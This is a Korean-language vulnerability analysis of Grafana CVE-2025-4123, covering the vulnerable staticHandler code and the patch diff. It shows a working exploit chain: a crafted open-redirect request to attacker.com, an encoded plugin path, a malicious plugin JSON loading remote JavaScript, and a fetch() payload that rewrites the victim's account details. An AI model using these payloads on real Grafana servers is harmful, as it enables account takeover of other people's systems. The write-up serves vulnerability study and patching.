

## URL

- https://nightbloodz.github.io/grafana-CVE-2025-4123/

## Target

- Grafana 11.6.x < 11.6.2
- Grafana 11.5.x < 11.5.5
- Grafana 11.4.x < 11.4.5
- Grafana 11.3.x < 11.3.7
- Grafana 11.2.x < 11.2.10
- Grafana < 10.4.19

## Explain

Grafana에는 정적 리소스를 처리하는 함수 **`staticHandler`**에서 클라이언트 요청에 따라 특정 경로에 존재하는 파일을 응답합니다. 이때, **`opt.FileSystem.Open(file)`**를 통해 파일일 경우 Content를 응답하고 파일이 아닌 디렉토리일 경우 인덱스 파일을 응답하기 위해 Redirect를 수행합니다.

이 과정에서 클라이언트의 요청 경로에 대한 검증이 적절히 이루어지지 않아 **Open Redirect 취약점이 발생하며, 이를 XSS와 연계하면 Account Takeover**까지 이어집니다.

```go
func staticHandler(ctx *web.Context, log log.Logger, opt StaticOptions) bool {
  // URL의 path 파싱
	file := ctx.Req.URL.Path
  ...
  // path 파일 핸들 오픈
	f, err := opt.FileSystem.Open(file) 
	if err != nil {
		return false
	}
	...
	// 파일 정보 확인 (디렉토리, 파일, 심볼릭 링크 등)
	fi, err := f.Stat()
	if err != nil {
		return true
	}
  ...
  // 디렉토리일 경우
	if fi.IsDir() {
		if !strings.HasSuffix(ctx.Req.URL.Path, "/") {
			path := fmt.Sprintf("%s/", ctx.Req.URL.Path)
			if !strings.HasPrefix(path, "/") {
				path = fmt.Sprintf("/%s", path)
			} else {
				rePrefix := regexp.MustCompile(`^(?:/\\|/+)`)
				path = rePrefix.ReplaceAllString(path, "/")
			}
			// Open Redirect 발생
			http.Redirect(ctx.Resp, ctx.Req, path, http.StatusFound)
			return true
		}
```

### Open Redirect

Open Redirect가 발생하는 로직 **`http.Redirect()`**에 도달하기 위해선 **`opt.FileSystem.Open(file)`**에서 file 변수에 담긴 경로가 파일 시스템 내에 존재해야 하며 **`fi.IsDir()`**조건문에 진입할 수 있어야 합니다.

따라서, **`http.Redirect()`**와 **`opt.FileSystem.Open(file)`**두 함수에서 활용 가능하게끔 요청 경로를 조작하여야 하며 이때 중요한 건 **`?`**를 URL 인코딩한 **`%3f`** 입니다.

```
[요청]
GET /public/../\attacker.com/%3f/../../../../../.. HTTP/1.1
Host: 192.168.100.2:3000

[응답]
HTTP/1.1 302 Found
Location: /\attacker.com/?/../../../../../../
```

- opt.FileSystem.Open(file)는 위 경로를 해석할 때, 4번의 ../를 수행하여 “”를 가리킵니다. 이에 따라 코드 상에서는 /staticfiles/etc/etc/ 경로의 파일 핸들을 오픈합니다.
- fi.IsDir()에서는 True가 반환되며 if문으로 진입합니다.
- http.Redirect(path)는 Location을 위한 문자열 처리를 할 때, **`%3f`**를 기준으로 Path와 Raw Query로 구분하여 분리를 한 뒤 문자열을 처리하기 때문에 사용자에게 **`/\attacker.com/%3f/../../../../`**를 Location 헤더에 담아 전송합니다.


### XSS

Grafana는 프론트엔드에서 플러그인 앱 내용을 확인하는 경로 **`/a/{plugin-app-name}/explore`**가 존재합니다. 브라우저 상에서 해당 경로로 요청을 할 경우 Grafana의 프론트엔드의 JS는 **`{plugin-app-name}`**를 추출하여 **`/api/plugins/{pugin-app-name}/settings`**로 **`fetch`**합니다**.**

그 뒤, “module” 필드에 정의되어 있는 JS를 실행합니다.

```json
{
    "name": "plugin-app",
    "type": "app",
    "id": "plugin-app",
    "enabled": true,
    "pinned": true,
    "autoEnabled": true,
    "module": "/modules/..../plugin-app.js", //js file to load
    "baseUrl": "public/plugins/grafana-lokiexplore-app",
    "info": {
        "author": {
            "name": "Grafana"
            ...
        }
    }
    ...
```

따라서, Open Redirect를 수행하는 경로를 URL 인코딩하여 다음과 같이 구성한 뒤, 악성 module을 응답할 수 있도록 구성합니다.

- /a/**`..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23`**/explore

```json
{
    "name": "ExploitPluginReq",
    "type": "app",
    "id": "grafana-lokiexplore-app",
    "enabled": true,
    "pinned": true,
    "autoEnabled": true,
    "module": "http://attacker.com/file?js=file",
    "baseUrl": "public/plugins/grafana-lokiexplore-app",
    "info": {
        "author": {...}
    }
    ...
}

```

> https://github.com/NightBloodz/CVE-2025-4123/blob/main/js.js
> 

module에서 **`http://attacker.com/file?js=file`** 가 호출되면, 패스워드를 변경하는 js를 응답하며 Account Takeover가 수행됩니다.

```json
fetch("/api/user", {
  method: "PUT",
  headers: {
    "x-grafana-device-id": "3b3353978aa55a04cd5b130d126adfee",
    "User-Agent":
      "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36",
    Accept: "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "x-grafana-org-id": "1",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    // Note: 'Cookie' headers are restricted by browsers in JavaScript fetch
  },

  body: JSON.stringify({
    name: "pwned",
    email: "pwned@pwned.com",
    login: "pwned",
  }),

  credentials: "include", // if you want cookies like grafana_session to be sent
})
  .then((response) => response.json())
  .then((data) => console.log(data))
  .catch((error) => console.error("Error:", error));

alert("account pwned");
```

> https://github.com/NightBloodz/CVE-2025-4123/blob/main/js.js
> 



## 취약점 패치

Redirect를 수행하기 전 **`path.Clean`** 을 통해 **`../`,** `./`, **`중복 /`** 를 제거하여 opt.FileSystem.Open과 동일한 정규화를 수행하여 불일치되지 않도록 패치 했습니다.

```go
@@ -159,16 +159,17 @@ func staticHandler(ctx *web.Context, log log.Logger, opt StaticOptions) bool {
        if fi.IsDir() {
                // Redirect if missing trailing slash.
                if !strings.HasSuffix(ctx.Req.URL.Path, "/") {
-                       path := fmt.Sprintf("%s/", ctx.Req.URL.Path)
-                       if !strings.HasPrefix(path, "/") {
+                       redirectPath := path.Clean(ctx.Req.URL.Path)
+                       redirectPath = fmt.Sprintf("%s/", redirectPath)
+                       if !strings.HasPrefix(redirectPath, "/") {
                                // Disambiguate that it's a path relative to this server
-                               path = fmt.Sprintf("/%s", path)
+                               redirectPath = fmt.Sprintf("/%s", redirectPath)
                        } else {
                                // A string starting with // or /\ is interpreted by browsers as a URL, and not a server relative path
                                rePrefix := regexp.MustCompile(`^(?:/\\|/+)`)
-                               path = rePrefix.ReplaceAllString(path, "/")
+                               redirectPath = rePrefix.ReplaceAllString(redirectPath, "/")
                        }
-                       http.Redirect(ctx.Resp, ctx.Req, path, http.StatusFound)
+                       http.Redirect(ctx.Resp, ctx.Req, redirectPath, http.StatusFound)
                        return true
                }
```

> https://github.com/grafana/grafana/commit/c7a690348df761d41b659224cbc50a46a0c0e4cc
